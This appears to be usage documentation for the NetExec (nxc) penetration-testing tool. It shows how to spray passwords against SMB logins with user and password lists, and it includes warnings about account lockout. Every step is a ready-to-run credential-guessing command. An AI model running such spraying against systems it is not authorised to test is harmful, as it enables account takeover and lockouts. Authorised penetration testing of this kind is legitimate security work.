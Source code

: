 # Password Spraying

### Using NetExec for password spraying

# Using Username/Password Lists

### You can use multiple usernames or passwords by seperating the names/passwords with a space.

#### nxc smb 192.168.1.101 -u user1 user2 user3 -p Summer18

#### nxc smb 192.168.1.101 -u user1 -p password1 password2 password3

## nxc accepts txt files of usernames and passwords. One user/password per line. Watch out for account lockout!

#### nxc smb 192.168.1.101 -u /path/to/users.txt -p Summer18

#### nxc smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt

## NOTE: By default nxc will exit after a successful login is found. Using the --continue-on-success flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list Usage example:

#### nxc smb 192.168.1.101 -u /path/to/users.txt -p Summer18 --continue-on-success

# Checking 'username == password' using wordlist

#### nxc smb 192.168.1.101 -u user.txt -p user.txt --no-bruteforce --continue-on-success

# Checking multiple usernames/passwords using wordlist

#### nxc smb 192.168.1.101 -u user.txt -p password.txt

### The result will be:

 - user1 => password1

 - user1 => password2

 - user2 => password1

 - user2 => password2

## Be careful to not lock accounts using this technique!

# Checking one login equal one password using wordlist

### No bruteforce possible with this one as 1 user = 1 password

####  nxc smb 192.168.1.101 -u user.txt -p password.txt --no-bruteforce --continue-on-success

### The result will be:

 - user1 => password1

 - user2 => password2

## Avoid range or a list of IP when using option --no-bruteforce

